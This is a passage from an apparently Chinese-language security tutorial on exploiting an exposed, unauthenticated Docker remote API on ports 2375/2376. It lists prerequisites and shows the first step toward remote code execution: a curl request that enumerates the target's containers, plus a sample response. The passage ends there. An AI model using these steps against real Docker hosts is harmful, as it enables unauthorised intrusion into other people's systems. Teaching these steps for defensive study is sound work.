 说的是如果在AWS VPC 上使用的，禁止入站访问，不受影响。

Tip: 影响不只是2375端口，其他https 2376 port etc.

前提:
```
root权限启动docker
主机上有镜像,或自己下载镜像
API版本大于1.5
```
查看client server 版本信息
![docker2](https://raw.githubusercontent.com/tom0li/tom0li.github.io/main/assets/images/docker2.jpg)

### 利用方法一 HTTP curl api

#### 在容器上获取 RCE
1）列出所有容器  
第一步是获取主机上所有容器的列表.  
Curl 命令:
```
curl -i -s -X GET http://<docker_host>:PORT/containers/json
```
响应：
```
HTTP/1.1 200 OK
Api-Version: 1.39
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/18.09.4 (linux)
Date: Thu, 04 Apr 2019 05:56:03 GMT
```